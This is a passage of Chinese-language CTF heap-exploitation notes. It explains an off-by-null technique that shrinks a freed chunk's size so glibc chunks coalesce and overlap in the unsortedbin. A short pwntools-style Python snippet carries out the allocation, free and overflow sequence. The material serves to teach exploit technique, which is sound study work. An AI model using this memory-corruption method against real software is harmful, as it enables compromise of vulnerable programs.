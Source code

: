 如果不是在输入的内容后面一个字节写 0 ，即在下一个 chunk 的 size 最低 1 字节写 0（设置恰当的 size 把 size 改小）但 **不能控制 prev_size** 时可以采用下面的构造方法：

* 一开始的构造还是同上，我们先假设还是只有 0，1，2 三个 chunk，这一次 0 的 chunk 是偏小的，1 的 chunk 是偏大的
* 释放掉 chunk1，那么 chunk2 的 prev_inuse 置为 0，利用 chunk0 的溢出能够把 chunk1 的 size 低字节写 0，并且正好能对 chunk1 的大小产生影响
* 再申请两次 chunk1 折中大小的堆块，即可把 chunk3，chunk4 从 unsortedbin 中取出
* 此时再释放掉 chunk3，也释放掉 chunk2，那么会出现 chunk1 与 chunk2 合并的情况，合并进入 unsortedbin，此时 chunk4 是包含在中间的，同时再把 chunk4 也可以释放掉
* 那么此时合并的堆块和 chunk4 都是在 unsortedbin 中，把合并堆块申请出来就可以对 chunk4 进行操作了

```python
add_chunk(0, 0x18)
add_chunk(1, 0x408)
add_chunk(2, 0x2f0)
add_chunk(10, 0x20)

delete_chunk(1)
edit_chunk(0, b'a'*0x18+p8(0))
add_chunk(3, 0x1f0)
add_chunk(11, 0x10)
add_chunk(4, 0x1f0 - 0x40)
add_chunk(12, 0x10)

gdb.attach(p)
```
